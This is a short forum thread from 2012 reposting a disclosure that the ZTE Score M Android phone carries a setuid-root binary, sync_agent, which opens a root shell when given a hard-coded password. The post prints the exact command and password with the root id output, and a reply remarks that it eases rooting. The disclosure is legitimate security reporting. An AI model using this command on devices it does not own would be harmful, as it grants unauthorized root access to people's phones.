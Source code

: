 ## ZTE Score M default backdoor
Posted by **XlogicX** on Thu May 17th, 2012 03:38:13 AM

<!-- m --><a class="postlink" href="http://pastebin.com/wamYsqTV">http://pastebin.com/wamYsqTV</a><!-- m -->

Contents of the paste:

[code:3gdsead2]The ZTE Score M is an Android 2&#46;3&#46;4 (Gingerbread) phone available in the United States on MetroPCS, made by Chinese telecom ZTE Corporation&#46;

There is a setuid-root application at /system/bin/sync_agent that serves no function besides providing a root shell backdoor on the device&#46;  Just give the magic, hard-coded password to get a root shell&#58;

$ sync_agent ztex1609523
# id
uid=0(root) gid=0(root)

Nice backdoor, ZTE&#46;[/code:3gdsead2]

--------------------------------------------------------------------------------

Posted by **PHLAK** on Thu May 17th, 2012 02:26:39 PM

On the plus side, this makes rooting the phone much easier!
